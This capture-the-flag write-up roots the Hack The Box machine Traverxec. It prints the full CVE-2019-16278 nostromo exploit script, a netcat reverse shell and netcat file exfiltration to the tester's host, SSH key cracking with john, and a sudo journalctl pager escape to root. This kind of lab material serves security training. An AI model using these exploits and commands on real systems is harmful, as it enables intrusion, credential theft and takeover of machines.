

---
search:
  exclude: true
---
# Traverxec Writeup

## Introduction :

Traverxec is an easy linux box released back in November 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [Nextcloud/blog]
    → sudo nmap -vvv -p- 10.10.10.165 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    [sudo] password for nothing:
    Discovered open port 80/tcp on 10.10.10.165
    Discovered open port 22/tcp on 10.10.10.165
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [Nextcloud/blog]
    → nmap -sCV -p80,22 10.10.10.165
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 11:35 CEST
    Nmap scan report for 10.10.10.165
    Host is up (0.034s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
    | ssh-hostkey:
    |   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
    |   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
    |_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
    80/tcp open  http    nostromo 1.9.6
    |_http-server-header: nostromo 1.9.6
    |_http-title: TRAVERXEC
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.07 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running nostromo 1.9.6:

You can run the scans you want on this webserver, you won't find much. But we do know that this is nostromo 1.9.6 so lets see if there are any CVEs:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [Nextcloud/blog]
    → searchsploit nostromo 1.9
    --------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                   |  Path
    --------------------------------------------------------------------------------- ---------------------------------
    nostromo 1.9.6 - Remote Code Execution                                           | multiple/remote/47837.py
    nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution             | linux/remote/35466.sh
    --------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    
    

And indeed this is an incredible coincidence that this nostromo version has a RCE vulnerability, so let's use it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Traverxec]
    → cp $(locate 47837.py) .
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Traverxec]
    → vim 47837.py
    
    

Looking at it in detail:
    
    
    # Exploit Title: nostromo 1.9.6 - Remote Code Execution
    # Date: 2019-12-31
    # Exploit Author: Kr0ff
    # Vendor Homepage:
    # Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
    # Version: 1.9.6
    # Tested on: Debian
    # CVE : CVE-2019-16278
    
    #cve2019_16278.py
    
    #!/usr/bin/env python
    
    import sys
    import socket
    
    art = """
    
                                            _____-2019-16278
            _____  _______    ______   _____\    \
       _____\    \_\      |  |      | /    / |    |
      /     /|     ||     /  /     /|/    /  /___/|
     /     / /____/||\    \  \    |/|    |__ |___|/
    |     | |____|/ \ \    \ |    | |       \
    |     |  _____   \|     \|    | |     __/ __
    |\     \|\    \   |\         /| |\    \  /  \
    | \_____\|    |   | \_______/ | | \____\/    |
    | |     /____/|    \ |     | /  | |    |____/|
     \|_____|    ||     \|_____|/    \|____|   | |
            |____|/                        |___|/
    
    
    
    """
    
    help_menu = '\r\nUsage: cve2019-16278.py <****Target_IP> <****Target_Port> <****Command>'
    
    def connect(soc):
        response = ""
        try:
            while True:
                connection = soc.recv(1024)
                if len(connection) == 0:
                    break
                response += connection
        except:
            pass
        return response
    
    def cve(target, port, cmd):
        soc = socket.socket()
        soc.connect((target, int(port)))
        payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2> &1'.format(cmd)
        soc.send(payload)
        receive = connect(soc)
        print(receive)
    
    if __name__ == "__main__":
    
        print(art)
    
        try:
            target = sys.argv[1]
            port = sys.argv[2]
            cmd = sys.argv[3]
    
            cve(target, port, cmd)
    
        except IndexError:
            print(help_menu)
    
    

This is a very simple python script, which sends a POST request to the ip and port pair we give it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Traverxec]
    → python 47837.py 10.10.10.165 80 id
    
    
                                            _____-2019-16278
            _____  _______    ______   _____\    \
       _____\    \_\      |  |      | /    / |    |
      /     /|     ||     /  /     /|/    /  /___/|
     /     / /____/||\    \  \    |/|    |__ |___|/
    |     | |____|/ \ \    \ |    | |       \
    |     |  _____   \|     \|    | |     __/ __
    |\     \|\    \   |\         /| |\    \  /  \
    | \_____\|    |   | \_______/ | | \____\/    |
    | |     /____/|    \ |     | /  | |    |____/|
     \|_____|    ||     \|_____|/    \|____|   | |
            |____|/                        |___|/
    
    
    
    
    HTTP/1.1 200 OK
    Date: Tue, 25 May 2021 15:48:12 GMT
    Server: nostromo 1.9.6
    Connection: close
    
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    

Indeed we get remote code execution as the www-data user, so we can get a reverse shell as follows:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/6 ] [~/HTB/Traverxec]
    → python 47837.py 10.10.10.165 80 "nc -e bash 10.10.14.13 9001"
    
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Traverxec]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.165] 54374
    
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

Obviously this is a very limited shell, so let's upgrade it to a fully interactive shell, first we spawn a tty using python's pty module:
    
    
    which python
    /usr/bin/python
    python -c 'import pty;pty.spawn("/bin/bash")'
    www-data@traverxec:/usr/bin$ 
    
    CTRL+Z
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Traverxec]
    → stty raw echo ; fg
    
    [1]  + 3599725 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    www-data@traverxec:/usr/bin$ export SHELL=bash
    www-data@traverxec:/usr/bin$ stty rows 40 columns 125
    www-data@traverxec:/usr/bin$ reset
    
    

And there you go ! We managed to get a fully interactive reverse shell:
    
    
    www-data@traverxec:/usr/bin$ stty -a | grep rows
    speed 38400 baud; rows 40; columns 125; line = 0;
    
    www-data@traverxec:/usr/bin$ echo $TERM
    screen-256color
    
    www-data@traverxec:/usr/bin$ echo $SHELL
    bash
    
    www-data@traverxec:/usr/bin$ ls
    Display all 666 possibilities? (y or n)
    

Now from there we need to find a way to privesc:
    
    
    www-data@traverxec:/usr/bin$ ls /home
    david
    
    www-data@traverxec:/usr/bin$ ls /home/david/user.txt
    /home/david/user.txt
    
    www-data@traverxec:/usr/bin$ ls /home/david/user.txt -lash
    4.0K -r--r----- 1 root david 33 Oct 25  2019 /home/david/user.txt
    
    

We're going to attempt to privesc to the david user, so first let's enumerate the box using LinPEAS.sh:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Traverxec]
    → cp $(locate linpeas.sh) .
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Traverxec]
    → ls -lash linpeas.sh
    336K -rwxr-xr-x 1 nothing nothing 334K May 25 17:50 linpeas.sh
    
    [ 10.10.14.13/23 ] [ /dev/pts/29 ] [~/HTB/Traverxec]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    

Now download it onto the box:
    
    
    www-data@traverxec:/dev/shm$ which wget ; which curl
    /usr/bin/wget
    
    www-data@traverxec:/dev/shm$ which wget ; which curl
    /usr/bin/wget
    www-data@traverxec:/dev/shm$ wget http://10.10.14.13:9090/linpeas.sh -O /dev/shm/peas.sh
    --2021-05-25 11:59:40--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: '/dev/shm/peas.sh'
    
    /dev/shm/peas.sh                100%[====================================================>] 333.85K   690KB/s    in 0.5s
    
    2021-05-25 11:59:41 (690 KB/s) - '/dev/shm/peas.sh' saved [341863/341863]
    
    www-data@traverxec:/dev/shm$ chmod +x peas.sh
    www-data@traverxec:/dev/shm$ ./peas.sh
    
    

Here i uploaded the script to **/dev/shm** , which is basically an alternative to the **/tmp** directory.

 

And indeed we are hinted towards the david user that seems to be part of quite a few groups, let's take a look at his home directory:
    
    
    www-data@traverxec:/home/david$ cd public_www
    
    www-data@traverxec:/home/david/public_www$ ls
    index.html  protected-file-area
    
    www-data@traverxec:/home/david/public_www$ ls -lash
    total 16K
    4.0K drwxr-xr-x 3 david david 4.0K Oct 25  2019 .
    4.0K drwx--x--x 5 david david 4.0K Oct 25  2019 ..
    4.0K -rw-r--r-- 1 david david  402 Oct 25  2019 index.html
    4.0K drwxr-xr-x 2 david david 4.0K Oct 25  2019 protected-file-area
    
    www-data@traverxec:/home/david/public_www$ cat protected-file-area/
    .htaccess                      backup-ssh-identity-files.tgz
    
    www-data@traverxec:/home/david/public_www$ cat protected-file-area/.htaccess
    realm David's Protected File Area. Keep out!
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ file backup-ssh-identity-files.tgz
    backup-ssh-identity-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size 10240
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ md5sum backup-ssh-identity-files.tgz
    084883c47fec5b1385b50f226db8175f  backup-ssh-identity-files.tgz
    
    

So here we seem to have a gzip archive called ssh backups, let's transfer it back to our local machine: 
    
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ which nc
    /usr/bin/nc
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ ls -lash
    total 16K
    4.0K drwxr-xr-x 2 david david 4.0K Oct 25  2019 .
    4.0K drwxr-xr-x 3 david david 4.0K Oct 25  2019 ..
    4.0K -rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
    4.0K -rw-r--r-- 1 david david 1.9K Oct 25  2019 backup-ssh-identity-files.tgz
    
    

Luckily for us, netcat is on the machine, so this will be easy to transfer the backup file:
    
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ md5sum backup-ssh-identity-files.tgz
    084883c47fec5b1385b50f226db8175f  backup-ssh-identity-files.tgz
    
    www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.13 9002
    
    
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → nc -lvnp 9002 > backup.tgz
    listening on [any] 9002 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.165] 54580
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → md5sum backup.tgz
    084883c47fec5b1385b50f226db8175f  backup.tgz
    
    

And once the transfer is done, we see that both files have the same m4d5 hash, so we know that the transfer is complete, both files are the same. So let's extract it and make use of the ssh keys in there:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → tar -xvf backup.tgz
    home/david/.ssh/
    home/david/.ssh/authorized_keys
    home/david/.ssh/id_rsa
    home/david/.ssh/id_rsa.pub
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → chmod 600 home/david/.ssh/id_rsa
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → ssh david@10.10.10.165 -i home/david/.ssh/id_rsa
    The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
    ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
    Enter passphrase for key 'home/david/.ssh/id_rsa':
    
    

However not so fast! David's private key is encrypted with a password, so let's use john to crack it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [~/HTB/Traverxec]
    → cd home/david/.ssh
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [home/david/.ssh]
    → locate ssh2john.py
    /usr/share/john/ssh2john.py
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [home/david/.ssh]
    → /usr/share/john/ssh2john.py id_rsa > hash.txt
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [home/david/.ssh]
    → john -w=/usr/share/wordlists/rockyou.txt hash.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (id_rsa)
    

And we now have david's password! so let's login using his ssh key:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/36 ] [home/david/.ssh]
    → ssh david@10.10.10.165 -i id_rsa
    Enter passphrase for key 'id_rsa':
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
    david@traverxec:~$ id
    uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
    david@traverxec:~$ cat user.txt
    7dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it, we managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc from the david user to the root user, 
    
    
    david@traverxec:~$ ls -lash
    total 36K
    4.0K drwx--x--x 5 david david 4.0K Oct 25  2019 .
    4.0K drwxr-xr-x 3 root  root  4.0K Oct 25  2019 ..
       0 lrwxrwxrwx 1 root  root     9 Oct 25  2019 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 david david  220 Oct 25  2019 .bash_logout
    4.0K -rw-r--r-- 1 david david 3.5K Oct 25  2019 .bashrc
    4.0K drwx------ 2 david david 4.0K Oct 25  2019 bin
    4.0K -rw-r--r-- 1 david david  807 Oct 25  2019 .profile
    4.0K drwxr-xr-x 3 david david 4.0K Oct 25  2019 public_www
    4.0K drwx------ 2 david david 4.0K Oct 25  2019 .ssh
    4.0K -r--r----- 1 root  david   33 Oct 25  2019 user.txt
    
    david@traverxec:~$ ls -lash bin/server-stats.*
    4.0K -r-------- 1 david david 802 Oct 25  2019 bin/server-stats.head
    4.0K -rwx------ 1 david david 363 Oct 25  2019 bin/server-stats.sh
    
    david@traverxec:~$ cat bin/server-stats.sh
    #!/bin/bash
    
    cat /home/david/bin/server-stats.head
    echo "Load: `/usr/bin/uptime`"
    echo " "
    echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
    echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
    echo " "
    echo "Last 5 journal log lines:"
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
    

Looking in the bin directory we see a bashscript that seems to do something interesting, it runs sudo journalctl, let's run it to see what it does:
    
    
    david@traverxec:~/bin$ ./server-stats.sh
                                                                              .----.
                                                                  .---------. | == |
       Webserver Statistics and Data                              |.-"""""-.| |----|
             Collection Script                                    ||       || | == |
              (c) David, 2019                                     ||       || |----|
                                                                  |'-.....-'| |::::|
                                                                  '"")---(""' |___.|
                                                                 /:::::::::::\"    "
                                                                /:::=======:::\
                                                            jgs '"""""""""""""'
    
    Load:  12:50:42 up  7:14,  1 user,  load average: 0.00, 0.00, 0.00
    
    Open nhttpd sockets: 1
    Files in the docroot: 117
    
    Last 5 journal log lines:
    -- Logs begin at Tue 2021-05-25 05:35:56 EDT, end at Tue 2021-05-25 12:50:42 EDT. --
    May 25 12:01:12 traverxec sudo[8197]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/0 ruser=www-data rhost=  user=www-data
    May 25 12:01:15 traverxec sudo[8197]: pam_unix(sudo:auth): conversation failed
    May 25 12:01:15 traverxec sudo[8197]: pam_unix(sudo:auth): auth could not identify password for [www-data]
    May 25 12:01:15 traverxec sudo[8197]: www-data : command not allowed ; TTY=pts/0 ; PWD=/dev/shm ; USER=root ; COMMAND=list
    May 25 12:01:15 traverxec nologin[8253]: Attempted login by UNKNOWN on UNKNOWN
    
    

Basically the script returns the last 5 lines of the nostromo service logs using journalctl. So we can exploit it because journalctl invokes the default pager, which is likely to be the **less** utility. Therefore it is also possible to exploit this by running the last command like so:
    
    
    #BEFORE
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
    
    #AFTER
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
    

after running it we prefix commands with the **!** character, to run **/bin/sh**

The trick here to trigger the less command is to shrink your terminal to just a few lines, and you will be able to spawn the root shell:
    
    
    david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    -- Logs begin at Tue 2021-05-25 05:35:56 EDT, end at Tue 2021-05-25 12:59:28 EDT. --
    !/bin/sh
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    9aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get a root shell and print the root flag.

## **Conclusion**

Here we can see the progress graph :

